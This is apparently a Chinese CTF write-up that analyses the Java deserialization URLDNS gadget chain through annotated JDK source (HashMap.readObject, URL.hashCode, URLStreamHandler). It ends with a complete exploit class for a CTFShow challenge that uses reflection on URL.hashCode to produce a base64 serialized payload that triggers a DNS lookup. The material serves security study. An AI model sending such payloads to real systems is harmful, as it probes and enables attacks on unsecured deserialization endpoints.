

java反序列化之URLDNS
1.URLDNS源码分析
原理:
1
|
java.util.HashMap 重写了 readObject, 在反序列化时会调用 hash 函数计算 key 的 hashCode.而 java.net.URL 的 hashCode 在计算时会调用 getHostAddress 来解析域名, 从而发出 DNS 请求.
|
所以先追踪java.util.HashMap的定义，直接到Hashmap.class,搜索readObject发现了一个重要的方法putVal

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
|
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException {
// 读取 threshold（忽略）、loadfactor 和其他隐藏属性
s.defaultReadObject();
reinitialize(); // 重新初始化 HashMap 的内部结构
if (loadFactor <= 0 || Float.isNaN(loadFactor))
throw new InvalidObjectException("Illegal load factor: " +
loadFactor); // 检查负载因子是否合法
s.readInt(); // 读取并忽略桶的数量（buckets）
int mappings = s.readInt(); // 读取映射的数量（即 HashMap 的大小）
if (mappings < 0)
throw new InvalidObjectException("Illegal mappings count: " +
mappings); // 检查映射数量是否合法
else if (mappings > 0) { // 如果有映射（mappings>0），则进行初始化
// 只在负载因子在 0.25~4.0 范围内时，才用给定的负载因子计算容量
float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
float fc = (float)mappings / lf + 1.0f;
int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
DEFAULT_INITIAL_CAPACITY :
(fc >= MAXIMUM_CAPACITY) ?
MAXIMUM_CAPACITY :
tableSizeFor((int)fc)); // 计算 table 的容量
float ft = (float)cap * lf;
threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
(int)ft : Integer.MAX_VALUE); // 计算阈值
// 检查反序列化的数组类型是否安全
SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
@SuppressWarnings({"rawtypes","unchecked"})
Node<K,V>[] tab = (Node<K,V>[])new Node[cap]; // 创建新的 table
table = tab;
// 读取每一个 key 和 value，并放入 HashMap
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject(); // 读取 key
@SuppressWarnings("unchecked")
V value = (V) s.readObject(); // 读取 value
putVal(hash(key), key, value, false, false); // 放入 HashMap
}
}
}
|
putVal会依次读取每个 key 和 value，并调用 putVal 方法插入到 HashMap。追踪一些hash函数
1
2
3
4
|
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
|
这里又调用了key.hashcode方法，而key此时是我们传入的 java.net.URL 对象，那么跟进到这个类的hashCode()方法看下（hashCode 方法是 java.net.URL 类中的方法。）
1
2
3
4
5
6
7
|
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
}
|
当hashCode字段等于-1时会进行handler.hashCode(this)计算，所以需要跟进handler，有一个抽象类URLStreamHandler，继续跟进找到里面的hashCode方法


1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
|
protected int hashCode(URL u) {
int h = 0; // 初始化哈希值
// 处理协议部分（如 http、https、ftp 等）
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();
// 处理主机部分
InetAddress addr = getHostAddress(u); // 获取主机的 InetAddress 对象
if (addr != null) {
h += addr.hashCode(); // 如果能解析出 IP 地址，则用 IP 的 hashCode
} else {
String host = u.getHost();
if (host != null)
h += host.toLowerCase().hashCode(); // 否则用主机名的小写形式的 hashCode
}
// 处理文件部分（即路径和查询参数）
String file = u.getFile();
if (file != null)
h += file.hashCode();
// 处理端口部分
if (u.getPort() == -1)
h += getDefaultPort(); // 如果没有指定端口，用协议的默认端口
else
h += u.getPort(); // 否则用指定的端口
// 处理引用部分（即 # 后面的片段）
String ref = u.getRef();
if (ref != null)
h += ref.hashCode();
return h; // 返回最终的哈希值
}
|
这里有很多函数，看看其定义与作用：
- getProtocol()方法：其用来从url中获取协议的方法

文字总结一下路线就是
1
2
3
|
通过调用URL的hashCode方法，进而调用URLStreamHandler的hashCode方法，从而实现DNS查询，所以只需要我们令hashCOde的值为-1就可以让后半段链子实现，然后我们来看前半段
为了调用到URL中的hashCode方法，我们需要借助到hashMap类的readObject方法，因为在这个方法里面对key的hashCode进行了计算，如果key重写了hashCode方法，那么计算逻辑就是使用key的hashCode()方法，所以我们可以将URL对象作为key传入hashMap中，但是要想最终调用hashCode()方法，就必须让URL的hashCode的值为-1，因此我们可以利用反射在运行状态中操作URL的hashCode，从而实现DNS查询的目的。
|
所以总路线图就是
1
2
3
4
5
6
|
HashMap->readObject()
HashMap->hash()
URL->hashCode()
URLStreamHandler->hashCode()
URLStreamHandler->getHostAddress()
InetAddress->getByName()
|
所以web846题exp是
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
|
public class URLDNS {
public static void serialize(Object obj) throws IOException{
// 创建字节输出流，用于存储序列化后的数据
ByteArrayOutputStream data =new ByteArrayOutputStream();
// 创建对象输出流，负责把对象写入字节流
ObjectOutput oos =new ObjectOutputStream(data);
oos.writeObject(obj); // 序列化对象
oos.flush();
oos.close();
// 用Base64编码输出序列化后的字节数据
System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
};
public static void main(String[] args) throws Exception{
// 1. 创建URL对象
URL url=new URL("http://68421999-595d-43ef-bbd8-f10c88147a01.challenge.ctf.show/");
// 2. 通过反射获取URL类的hashCode字段
Class c=url.getClass();
Field hashcode=c.getDeclaredField("hashCode");
hashcode.setAccessible(true);
// hashcode.setAccessible(true);让 Java 反射机制可以访问 hashCode 这个字段，即使它是 private（私有的）或 protected（受保护的）。(Java 的安全机制默认不允许你直接访问私有字段)
// 3. 把hashCode字段设置为1（避免put时触发DNS请求）
hashcode.set(url,1);
//4. 创建了一个可以用 URL 做 key、用整数做 value 的 HashMap（哈希表/字典），变量名叫 h。
HashMap<URL,Integer> h = new HashMap<URL,Integer>();
//是把 url 作为 key，1 作为 value，存入到 HashMap 里
h.put(url,1);
// 5. 再次把hashCode字段设置为-1（为后续反序列化时触发DNS请求做准备）
hashcode.set(url,-1);
// 6. 序列化HashMap并输出
serialize(h);
}
}
|

Java反序列化 — URLDNS利用链分析-先知社区
Java反序列化URLDNS利用链
CTFShow-Java反序列化篇(1) - N1Rvana’s Blog